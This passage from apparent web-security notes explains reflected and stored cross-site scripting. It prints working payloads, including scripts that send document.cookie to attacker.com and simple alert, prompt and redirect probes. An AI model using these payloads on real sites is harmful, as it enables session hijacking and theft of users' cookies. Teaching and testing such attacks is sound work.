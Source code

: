 	```js
	https://example.com/page#<script>var xhr = new XMLHttpRequest();xhr.open('GET', 'https://attacker.com/steal?data=' + document.cookie, true);xhr.send();</script>
	```
	- The script will send the user's cookies to the attacker's server, potentially leading to unauthorized access.

##### Attack Vector
1. **Find a parameter that its value is printed on the document**
2. **Try injection scripts**:
	```js
	<script>alert(1)</script>
	<img src=x onerror=prompt(1)>
	<img src=x onerror=window.location.href="https://google.com">
	```

#### Stored XSS
##### Overview
Stored XSS (Cross-Site Scripting) is a type of XSS attack where the malicious script is permanently stored on the target server and then served to other users when they access a particular page or resource. Unlike reflected XSS, where the injected script is reflected back in the response, stored XSS attacks store the malicious script in a database, comment section, user profile, or any other persistent storage on the server.

The stored malicious script is then rendered and executed whenever the affected page is loaded by other users. This allows the attacker to target multiple users at once, increasing the potential impact of the attack.

Here's an overview of the steps involved in a stored XSS attack:

1. **Identify a Vulnerable Point:** The attacker identifies a point in the web application where user-supplied data is stored on the server without proper validation or encoding. Common examples include comment forms, user profile fields, forum posts, and message boards.
2. **Craft the Payload:** The attacker crafts a malicious payload containing JavaScript code to be injected into the application's persistent storage.
3. **Store the Payload:** The attacker submits the malicious payload via the vulnerable input field, and the application stores the payload in its database or another form of persistent storage.
4. **Exploitation:** When other users access the page where the stored payload is served, their browsers interpret the script as executable code, leading to the execution of the injected script in their browsers. This can lead to session hijacking, data theft, unauthorized actions, or other malicious activities.

Examples of Stored XSS attacks:

1. **Comment Section:** Attack Scenario:
	- The attacker writes a comment containing a malicious script on a blog post or article.
	- The blog application stores the comment in its database without proper validation or encoding.
	- When other users view the blog post, the malicious script is loaded and executed in their browsers.
	```js
	Comment: "<script>alert('XSS Attack!');</script>"
	```
	- When other users view the blog post and its comments, they will see an alert box with the text "XSS Attack!"
2. **User Profile Field:** Attack Scenario:
	- The attacker updates their user profile with a malicious script in one of the fields.
	- The application stores the user profile in its database without proper validation or encoding.
	- When other users view the attacker's profile page, the malicious script is loaded and executed in their browsers.
	```js
	User Profile Bio: "<script>window.location.href='https://attacker.com/steal?
	data='+document.cookie;</script>"
	```